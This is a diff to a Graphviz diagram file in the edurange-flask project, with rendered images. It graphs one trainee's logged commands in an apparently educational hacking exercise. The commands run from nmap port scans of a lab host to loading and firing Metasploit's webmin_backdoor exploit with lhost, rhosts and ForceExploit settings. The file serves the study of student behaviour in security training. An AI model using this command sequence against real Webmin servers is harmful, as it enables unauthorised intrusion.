

Before and after one commit to edurange/edurange-flask: the diagram in log_analysis/kypo-git4/kypo_output_91_successes_graph.dot, drawn with Graphviz. The commit also changed 89 other files, not shown here.

```diff
--- a/log_analysis/kypo-git4/kypo_output_91_successes_graph.dot
+++ b/log_analysis/kypo-git4/kypo_output_91_successes_graph.dot
@@ -1,12 +1,48 @@
 // creating graph for user: 91
 digraph {
 	node [shape=box]
-	0 [label="nmap -h A0 "]
-	1 [label="nmap -h A0 "]
-	2 [label="nmap -p 1-65535 172.18.1.5 A0 "]
-	3 [label="nmap -A -p 10000 172.18.1.5 A0 "]
+	0 [label="nmap -h A0 A1 "]
+	1 [label="nmap -h A0 A1 "]
+	2 [label="nmap -p 1-65535 172.18.1.5 M0 "]
+	3 [label="nmap -A -p 10000 172.18.1.5 M0 "]
+	4 [label="msfconsole M2 "]
+	5 [label="use exploit/linux/http/webmin_backdoor M8 "]
+	6 [label="use exploit/unix/http/webmin_backdoor M8 "]
+	7 [label="search webmin M3 "]
+	8 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
+	9 [label="show options M5 "]
+	10 [label="set lhost 10.1.135.83 A6 "]
+	11 [label="set rhosts 172.18.1.5 A6 "]
+	12 [label="show targets A5 "]
+	13 [label="show options M5 "]
+	14 [label="exploit  M8 "]
+	15 [label="set srvhost 10.1.135.83 A6 "]
+	16 [label="exploit  M8 "]
+	17 [label="show options M5 "]
+	18 [label="set ForceExplot A6 "]
+	19 [label="set ForceExploit A6 "]
+	20 [label="set ForceExploit true A6 "]
+	21 [label="exploit M8 "]
 	0 -> 1 [constraint=false]
 	1 -> 2 [constraint=false]
 	2 -> 3 [constraint=false]
+	3 -> 4 [constraint=false]
+	4 -> 5 [constraint=false]
+	5 -> 6 [constraint=false]
+	6 -> 7 [constraint=false]
+	7 -> 8 [constraint=false]
+	8 -> 9 [constraint=false]
+	9 -> 10 [constraint=false]
+	10 -> 11 [constraint=false]
+	11 -> 12 [constraint=false]
+	12 -> 13 [constraint=false]
+	13 -> 14 [constraint=false]
+	14 -> 15 [constraint=false]
+	15 -> 16 [constraint=false]
+	16 -> 17 [constraint=false]
+	17 -> 18 [constraint=false]
+	18 -> 19 [constraint=false]
+	19 -> 20 [constraint=false]
+	20 -> 21 [constraint=false]
 	rankdir=LR
 }
```
